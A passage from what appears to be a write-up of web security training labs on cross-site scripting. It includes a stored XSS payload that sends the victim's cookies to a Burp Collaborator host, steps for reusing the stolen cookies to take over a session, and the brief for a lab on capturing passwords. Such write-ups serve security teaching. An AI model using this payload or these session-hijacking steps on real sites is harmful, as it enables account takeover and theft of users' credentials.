 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
</p>< src=x onerror='document.location="http://s2v2in38mu6tj6w733goro9f066xunic.oastify.com/?cookies="+document.cookie' /><p>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We receive cookies in Burp Collaborator:

![img](media/fa80ee60974bae2dbbe737be4db65862.png)

Then intercept the request to the Home page and add these cookies:

![img](media/9fb16a3605e8521cfa43757ebb0252d9.png)


15 Exploiting cross-site scripting to capture passwords
=======================================================

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the credentials.
